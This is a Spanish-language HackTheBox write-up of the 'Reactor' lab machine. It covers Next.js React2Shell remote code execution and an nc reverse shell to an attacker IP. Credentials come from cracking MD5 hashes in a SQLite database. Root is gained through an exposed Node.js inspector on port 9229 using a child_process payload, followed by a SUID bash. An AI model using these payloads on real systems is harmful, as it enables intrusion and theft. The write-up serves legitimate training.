



+++
title = "HackTheBox - Reactor"
draft = true
description = "Resolución de la máquina Reactor"
summary = "OS: Linux | Dificultad: Easy | Conceptos: NextJS, React2Shell, DB, Puerto local, WebSockets"
tags = ["HTB", "Linux", "Easy", "NextJS", "React2Shell", "DB", "WebSockets"]
categories = ["Writeups"]
showToc = true
date = "2026-05-24T00:00:00"
showRelated = true
+++

* Dificultad: `easy`
* Tiempo aprox. `2h`
* **Datos Iniciales**: `10.129.3.111`

### Nmap Scan y enumeración
Primero, añadimos `reactor.htb` a /etc/hosts.

Tras hacer un escaneo completo de puertos, se encuentran los siguientes abiertos:
```bash {hl_lines=[5,9]}
sudo nmap -sT -Pn --disable-arp-ping -p- reactor.htb # Encuentra 22,3000

sudo nmap -sT -Pn --disable-arp-ping -p22,3000 -sVC reactor.htb
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ce:fd:0d:82:c0:23:ed:6e:4b:ea:13:fa:4f:ea:ef:b7 (ECDSA)
|_  256 f8:44:c6:46:58:7a:39:21:ef:16:44:e9:58:c2:f3:62 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch, Accept-Encoding
|     x-nextjs-cache: HIT
|     x-nextjs-prerender: 1
|     x-nextjs-stale-time: 4294967294
|     X-Powered-By: Next.js
|     Cache-Control: s-maxage=31536000, 
|     ETag: "p02u6gnhufd8t"
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 17175
|     Date: Sun, 24 May 2026 17:42:36 GMT
|     Connection: close
|     <!DOCTYPE html><html lang="en"><head><meta charSet="utf-8"/><meta name="viewport" content="width=device-width, initial-scale=1"/><link rel="stylesheet" href="/_next/static/css/414e1be982bc8557.css" data-precedence="next"/><link rel="preload" as="script" fetchPriority="low" href="/_next/static/chunks/webpack-db0a529a99835594.js"/><script src="/_next/static/chunks/4bd1b696-80bcaf75e1b4285e.js" async=""></script><script src="/_next/static/chunks/517-d083b552e04dead1.js" async=""></script><script s
|   HTTPOptions: 
|     HTTP/1.1 400 Bad Request
|     vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch
|     Allow: GET
|     Allow: HEAD
|     Cache-Control: private, no-cache, no-store, max-age=0, must-revalidate
|     Date: Sun, 24 May 2026 17:42:36 GMT
|     Connection: close
|   Help, NCP, RPCCheck: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch
|     Allow: GET
|     Allow: HEAD
|     Cache-Control: private, no-cache, no-store, max-age=0, must-revalidate
|     Date: Sun, 24 May 2026 17:42:37 GMT
|_    Connection: close
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.99%I=7%D=5/24%Time=6A13388C%P=x86_64-pc-linux-gnu%r(Ge
...[SNIP]...
SF:nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
# Nada en UDP
```

- `22/tcp (OpenSSH 9.6p1 Ubuntu)`: Vulnerable a RegreSSHion, pero irrelevante aquí. Lo consideramos no vulnerable.
- `3000/tcp (ppp? según nmap)`: Aunque nmap dice que el servicio es ppp (y también dice que no tiene ni idea, con el "*1 service unrecognized despite returning data*"), el header `X-Powered-By` nos indica que usa Next.js

> [!TIP]+ Nota: Protocolo PPP
> PPP se usó históricamente como protocolo de la capa de enlace de datos (OSI 2) para que dos nodos de red pudiesen comunicarse sin intermediarios. Servía para tener una conexión con Internet a través de módems y líneas telefónicas o para que dos routers se comunicasen punto a punto. En este caso nmap lo propone como posible servicio, pero porque las firmas de las respuestas del servidor no coinciden con ninguna de las que tiene guardadas y elige su última alternativa.

Según [Wikipedia](https://es.wikipedia.org/wiki/Next.js):
> *Next.js es un marco web de desarrollo front-end de React de código abierto creado por Vercel que habilita funcionalidades como la representación del lado del servidor y la generación de sitios web estáticos para aplicaciones web basadas en React. Es un marco listo para producción que permite a los desarrolladores crear rápidamente sitios JAMstack estáticos y dinámicos y es ampliamente utilizado por muchas grandes empresas.*

Ya sabiendo que NextJS usa React, es muy posible que sea el motivo por el cual la máquina recibe su nombre.

## Puerto 3000: HTTP con NextJS
### Reactorwatch
Si entramos en la página:


Nos encontramos un panel de control de lo que parece ser un reactor nuclear. Se usa el servicio "*CORE MONITORING SYSTEM v3.2.1*", que no parece algo muy estándar.

Además, los datos que aporta la página indican que se trata de una central de fisión nuclear, dado que las barras de control se usan únicamente en centrales de fisión, no de fusión, y las temperaturas del núcleo en centrales de fusión suelen estar a millones de grados, no a ~300º, como este.

Más allá de esto, no hay nada con lo que podamos interactuar en la página.

### React2Shell
Si miramos la versión de Next.js con Wappalyzer:

Se usa Next.js 15.0.3. Si buscamos más info acerca de esta versión:

> **React2Shell ([CVE-2025-66478](https://nextjs.org/blog/CVE-2025-66478), [CVE-2025-55182](https://nextjs.org/blog/CVE-2025-66478))**: This flaw allows attackers to send crafted HTTP requests with malicious RSC payloads. The server improperly deserializes these payloads, allowing the attacker to execute arbitrary code or call built-in Node.js modules without any credentials.

Encontramos un [PoC](https://github.com/jensnesten/React2Shell-PoC) para esta vulnerabilidad.

```bash
$ python3 scanner.py -u http://reactor.htb -p 3000 -k

brought to you by assetnote

[*] Loaded 1 host(s) to scan
[*] Using 10 thread(s)
[*] Timeout: 10s
[*] Using RCE PoC check
[!] SSL verification disabled

[VULNERABLE] http://reactor.htb:3000 - Status: 303

============================================================
SCAN SUMMARY
============================================================
  Total hosts scanned: 1
  Vulnerable: 1
  Not vulnerable: 0
  Errors: 0
============================================================
[+] Vulnerable hosts written to: vulnerable.txt
```

Si probamos a ejecutar el exploit:
```bash
$ python3 main.py http://reactor.htb:3000 'id'
[*] Connecting to reactor.htb:3000 (http)
[*] Sending payload with command: id
[*] Response received, parsing output...
[+] Command output:
uid=999(node) gid=988(node) groups=988(node)
```

Hemos conseguido RCE. Ahora intentamos conseguir un reverse shell:
```bash
$ penelope -i 10.10.15.89 
[+] Listening for reverse shells on 10.10.15.89:4444 
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```
Mandamos el payload:
```bash
$ python3 main.py http://reactor.htb:3000 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.89 4444 >/tmp/f'
[*] Connecting to reactor.htb:3000 (http)
[*] Sending payload with command: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.89 4444 >/tmp/f
```
Y conseguimos el shell:
```bash
[+] Got reverse shell from reactor~10.129.3.111-Linux-x86_64 😍️ Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/sessions/reactor~10.129.3.111-Linux-x86_64/2026_05_24-14_53_41-359.log 📜

node@reactor:/opt/reactor-app$
```

## Privesc
### Intento de conexión por SSH
Antes de nada, intentamos crear un par de claves SSH por si acaso perdemos el shell:
```bash
$ ssh-keygen -t rsa
...
```

```bash
node@reactor:/opt/reactor-app$ mkdir ~/.ssh
node@reactor:/opt/reactor-app$ nano ~/.ssh/authorized_keys #Añadimos la pública
```
Y nos conectamos:
```bash
$ ssh -i reactornode node@reactor.htb

 ____  _____    _    ____ _____ ___  ____  
|  _ \| ____|  / \  / ___|_   _/ _ \|  _ \ 
| |_) |  _|   / _ \| |     | || | | | |_) |
|  _ <| |___ / ___ \ |___  | || |_| |  _ < 
|_| \_\_____/_/   \_\____| |_| \___/|_| \_\

    ReactorWatch Core Monitoring System
    Nuclear Dynamics Corp. - Site 7
    
    AUTHORIZED PERSONNEL ONLY
This account is currently not available.
Connection to reactor.htb closed.
```
Al parecer está prohibido conectarse por SSH, nos tendremos que conformar con el shell que tenemos.

### DB hasta Engineer
Si miramos el directorio en el que hemos aparecido (/opt/reactor-app), vemos un archivo de nombre `reactor.db`:
```bash
node@reactor:/opt/reactor-app$ ls
app  next.config.js  node_modules  package.json  package-lock.json  reactor.db
```

Podemos probar a copiarlo a nuestra máquina, p.ej pasándolo a base64:
```bash
node@reactor:/opt/reactor-app$ cat reactor.db | base64
U1FMaXRlIGZvcm1hdCAzABAAAQEAQCAgAAAABwAAAAMAAAAAAAAAAAAAAAIAAAAEAAAAAAAAAAAA
AAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAHAC52iQ0AAAACDooAD1AOigAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
... # Copiamos todo esto
```

Ahora lo pegamos y miramos qué hay dentro.
```bash
$ nano base64reactordb
$ cat base64reactordb | base64 -d > reactor.db

$ sqlite3 reactor.db "SELECT id, username, password_hash FROM users;"
1|admin|a203b22191d744a4e70ada5c101b17b8
2|engineer|39d97110eafe2a9a68639812cd271e8e
```

Tenemos dos nombres de usuario con sus respectivos hashes, al parecer MD5, así que posiblemente no nos cueste mucho crackearlos.



Tras subirlos a Crackstation vemos que ya tenemos las credenciales de un usuario: `engineer`:`reactor1`.

Y ahora finalmente probamos otra vez a conectarnos a SSH, y conseguimos entrar:
```bash
$ ssh engineer@reactor.htb                                           
engineer@reactor.htb's password: 
 ____  _____    _    ____ _____ ___  ____  
|  _ \| ____|  / \  / ___|_   _/ _ \|  _ \ 
| |_) |  _|   / _ \| |     | || | | | |_) |
|  _ <| |___ / ___ \ |___  | || |_| |  _ < 
|_| \_\_____/_/   \_\____| |_| \___/|_| \_\

    ReactorWatch Core Monitoring System
    Nuclear Dynamics Corp. - Site 7
    
    AUTHORIZED PERSONNEL ONLY
Last login: Sun May 24 19:06:41 2026 from 10.10.15.89
engineer@reactor:~$
```
### Engineer hasta Root
Probamos a ejecutar `sudo`, pero nada:
```bash
engineer@reactor:~$ sudo -l
[sudo] password for engineer: 
Sorry, user engineer may not run sudo on reactor.
```

Miramos archivos con SUID Bit, pero tampoco vemos nada fuera de lo común:
```bash
engineer@reactor:/home$ find / -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/fusermount3
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/polkit-1/polkit-agent-helper-1
```

#### Puertos en localhost
Si miramos puertos locales en escucha, encontramos uno, `127.0.0.1:9229`:
```bash
engineer@reactor:/home$ netstat -tunlp | grep 127.0.0.1
(No info could be read for "-p": geteuid()=1000 but you should be root.)
tcp        0      0 127.0.0.1:9229          0.0.0.0:*               LISTEN      -
```

Hacemos port forwarding y echamos un vistazo para ver qué es.
```bash
$ ssh -fN -L 9229:localhost:9229 engineer@reactor.htb
engineer@reactor.htb's password: 
                                                                                
$ curl localhost:9229                     
WebSockets request was expected
```

Se nos indica que se necesita una solicitud WebSockets, para hacerla podemos cambiar el protocolo `http` por `ws` o `wss` (cifrado) en la url:
```bash
$ curl ws://localhost:9229   
curl: (22) Refused WebSocket upgrade: 400
```

Si hacemos una búsqueda para más contexto, encontramos lo siguiente:

> *Port 9229 is the default port used by Node.js for the debugging inspector, which allows developers to connect debugging clients like Chrome DevTools to their Node.js applications.*

El problema es que al parecer necesitamos conocer el endpoint al que conectarnos por WebSockets, pero para ello podemos hacer la siguiente solicitud:
```bash
$ curl http://localhost:9229/json
[ {
  "description": "node.js instance",
  "devtoolsFrontendUrl": "devtools://devtools/bundled/js_app.html?experiments=true&v8only=true&ws=localhost:9229/55e2021a-348d-4566-a837-a8aa04735d78",
  "devtoolsFrontendUrlCompat": "devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=localhost:9229/55e2021a-348d-4566-a837-a8aa04735d78",
  "faviconUrl": "https://nodejs.org/static/images/favicons/favicon.ico",
  "id": "55e2021a-348d-4566-a837-a8aa04735d78",
  "title": "/opt/uptime-monitor/worker.js",
  "type": "node",
  "url": "file:///opt/uptime-monitor/worker.js",
  "webSocketDebuggerUrl": "ws://localhost:9229/55e2021a-348d-4566-a837-a8aa04735d78"
} ]
```

Y aquí tenemos el endpoint: `ws://localhost:9229/55e2021a-348d-4566-a837-a8aa04735d78`.

Además, para conectarnos y mandar/recibir datos también necesitamos instalar `wscat`, `curl` no sirve.

```bash
sudo npm install -g wscat
added 9 packages in 566ms
```

Ahora probamos a conectarnos y mandar un ping:
```bash
$ wscat -c ws://localhost:9229/55e2021a-348d-4566-a837-a8aa04735d78
Connected (press CTRL+C to quit)
> {"id":1,"method":"Runtime.evaluate","params":{"expression":"1+1"}}
< {"id":1,"result":{"result":{"type":"number","value":2,"description":"2"}}}
```

Hemos mandado `1+1`, se nos ha devuelto `2`, así que la conexión funciona. Ahora podemos ejecutar comandos del sistema con el siguiente payload:

```bash
> {"id": 4, "method": "Runtime.evaluate", "params": {"expression": "process.mainModule.require('child_process').execSync('id').toString()", "returnByValue": true}}
< {"id":4,"result":{"result":{"type":"string","value":"uid=0(root) gid=0(root) groups=0(root)\n"}}}
```

Y si nos fijamos en el output, ya tenemos root. Ahora solo faltaría tener algo más práctico que una conexión por WebSockets, podemos dar el bit SUID a bash:

```bash
> {"id": 4, "method": "Runtime.evaluate", "params": {"expression": "process.mainModule.require('child_process').execSync('chmod +s /bin/bash').toString()", "returnByValue": true}}
< {"id":4,"result":{"result":{"type":"string","value":""}}}
```

Si ahora volvemos a SSH, vemos que el flag está puesto, así que ejecutamos bash:
```
engineer@reactor:/home$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1446024 Mar 31  2024 /bin/bash

engineer@reactor:/home$ /bin/bash -p
bash-5.2#
```

Y hemos acabado.
